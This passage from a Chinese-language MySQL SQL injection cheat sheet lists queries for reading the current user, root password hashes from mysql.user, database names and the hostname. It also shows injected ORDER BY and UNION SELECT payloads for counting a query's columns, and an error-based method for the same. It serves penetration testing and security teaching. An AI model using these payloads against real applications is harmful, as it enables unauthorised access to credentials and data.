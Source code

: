 例子：

```
SELECT current_user;
SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged) 
```

### 数据库名：

|       表      |       information_schema.schemata, mysql.db      |
|       字段      |       schema_name, db      |
|       当前数据库      |       database(), schema()      |

例子：

```
SELECT database();
SELECT schema_name FROM information_schema.schemata;
SELECT DISTINCT(db) FROM mysql.db;-- (Privileged) 
```

### 服务器主机名：

```
@@HOSTNAME 
```

例子：

```
SELECT @@hostname; 
```

### 表和字段

#### 检测字段数

两种方式：

|       ORDER BY 判断      |         ORDER BY n+1; 让 n 一直增加直到出现错误页面。        例子:
查询语句
SELECT username, password, permission FROM Users WHERE id = '1';        1' ORDER BY 1--+ 真
1' ORDER BY 2--+ 真
1' ORDER BY 3--+ 真
1' ORDER BY 4--+ 假- 查询只用了 3 个字段
-1' UNION SELECT 1,2,3--+ 真 |
|       基于错误查询      |         AND (SELECT * FROM SOME_EXISTING_TABLE) = 1 注意:
这种方式需要你知道所要查询的表名。
这种报错方式返回表的字段数，而不是错误的查询语句。        例子：
查询语句
SELECT permission FROM Users WHERE id = 1;
AND (SELECT * FROM Users) = 1 返回 Users 的字段数 |
